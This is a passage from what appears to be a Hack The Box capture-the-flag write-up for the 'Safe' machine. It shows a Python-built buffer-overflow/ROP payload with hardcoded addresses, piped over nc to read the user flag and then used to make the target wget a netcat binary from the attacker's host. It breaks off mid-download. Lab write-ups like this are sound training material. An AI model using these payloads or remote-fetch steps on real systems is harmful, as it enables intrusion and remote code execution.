 {% highlight shell %}
root@kali:~/Desktop/HTB/Safe# cat custom9.txt | ./myapp 
 20:47:27 up  6:24,  1 user,  load average: 0.19, 0.19, 0.18

What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh;@
root
sh: 1: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC: not found

What do you want me to echo back? �G�^
Segmentation fault
{% endhighlight %}

<p>With some tweaking I was ready give it a shot with the actual <code>myapp</code> instead of my local variant. With baited breath I pressed enter and hoped for the best.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh|" + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"cat /home/user/user.txt;" + "C"*100' > custom13.txt
{% endhighlight %}
{% highlight shell %}
root@kali:~/Desktop/HTB/Safe# cat custom13.txt | nc 10.10.10.147 1337
 21:20:13 up  2:26,  1 user,  load average: 0.00, 0.01, 0.00
7a29e*********************
{% endhighlight %}

<p> *Happy dance* while not a shell, I was able to cross user flag off the list. With my moment of joy subsiding, let's see how we can use this.</p>

<p>At this point, I essentially have single-command RCE. There are quite a few different ways I could do this. My initial thought was adding my ssh keys to authorized_keys. For whatever reason I couldn't get it to work with the single command RCE. Up next, I attempted to execute a <code>nc</code> back to my local listener, but it seemed like it (among a lot of other common binaries) was not installed. No worries, let's get a static version of <code>nc</code> and host it on our machine, then point our RCE to <code>wget</code> it.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh|" + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"wget -P /home/user http://10.10.15.xxx/nc;" + 
"C"*100' > custom13.txt
{% endhighlight %}

{% highlight shell %}
cat custom13.txt | nc 10.10.10.147 1337
 21:53:02 up  2:59,  1 user,  load average: 0.00, 0.03, 0.00
--2019-10-13 21:53:02--  http://10.10.15.xxx/nc
Connecting to 10.10.15.xxx:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 959800 (937K)
Saving to: ‘/home/user/nc’

     0K .......... .......... .......... .......... ..........  5% 1.28M 1s
    50K .......... .......... .......... .......... .......... 10% 3.71M 0s
   100K .......... .......... .......... .......... .......... 16% 3.20M 0s
   150K .......... .......... .......... .......... .......... 21% 8.72M 0s
   200K .......... .......... .......... .......... .......... 26% 7.80M 0s
   250K .......... .......... .......... .......... .......... 32% 6.51M 0s